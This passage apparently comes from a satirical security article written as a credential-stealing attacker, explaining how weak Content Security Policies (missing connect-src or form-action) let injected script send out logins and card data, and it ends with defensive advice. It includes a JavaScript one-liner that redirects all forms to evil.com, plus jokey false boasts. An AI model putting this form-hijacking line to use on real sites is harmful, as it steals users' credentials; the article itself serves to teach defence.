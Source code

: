 At this point I can look for ways to get out past your CSP. The Google sign in page has a CSP that would allow me to easily send out your username and password if my code ran on that page. They don’t set connect-src explicitly and also haven’t set the catch-all default-src so I can send your credentials wherever I damn well please.

If you send me $10 in the mail I’ll tell you if my code is running on the Google sign in page.

Amazon has no CSP at all on the page where you type your credit card number in, nor does eBay.

Twitter and PayPal have CSPs, but it’s still dead easy to get your data from them. These two allow behind-the-scenes sending of data in the same way, and this is probably a sign that others allow it as well. At first glance everything looks pretty thorough, they both set the default-src catch-all like they should. But here’s the kicker: that catch-all doesn’t catch all. They haven’t locked down form-action.

So, when I’m checking your CSP (and checking it twice), if everything else is locked down but I don’t see form-action in there, I just go and change the action (where the data is sent when you click ‘sign in’) on all your forms.

```
Array.from(document.forms).forEach(formEl => formEl.action = `//evil.com/bounce-form`);
```

Boom, thanks for sending me your PayPal username and password, pal. I’ll send you a thank you card with a photo of the stuff I bought with your money.

Naturally, I only do this trick once per device and bounce the user right back to the referring page where they will shrug and try again.

(Using this method, I took over Trump’s Twitter account and started sending out all sorts of weird shit. As yet no one has noticed.)

Option 1:
---------

Option 2:
---------

Edit: I’ve detailed this in a follow-up post, Part 2: How to stop me harvesting credit card numbers and passwords from your site.

On any page that collects any data that you don’t want me (or my fellow attackers) to have, don’t use npm modules. Or Google Tag Manager, or ad networks, or analytics, or any code that isn’t yours.

As suggested here, you might want to consider having dedicated, lightweight pages for login and credit card collection that are served up in an iFrame.

You can still have your big ol’ React app with 938 npm packages for the header/footer/nav/whatever, but the part of the page where the user is typing should be in a secured iFrame and it should run only hand-crafted (and may I suggest, not-minified) JavaScript — if you want to do client-side validation.

I will soon be posting my annual report for 2017 where I declare my income from stealing credit card numbers and selling them to gangsters in cool hats. I am required by law to show which websites I skimmed the most credit cards from — maybe yours is on the list?

Since I’m a classy guy, anyone on the list who has successfully blocked me from harvesting their data by January 12th will be spared the public shaming.
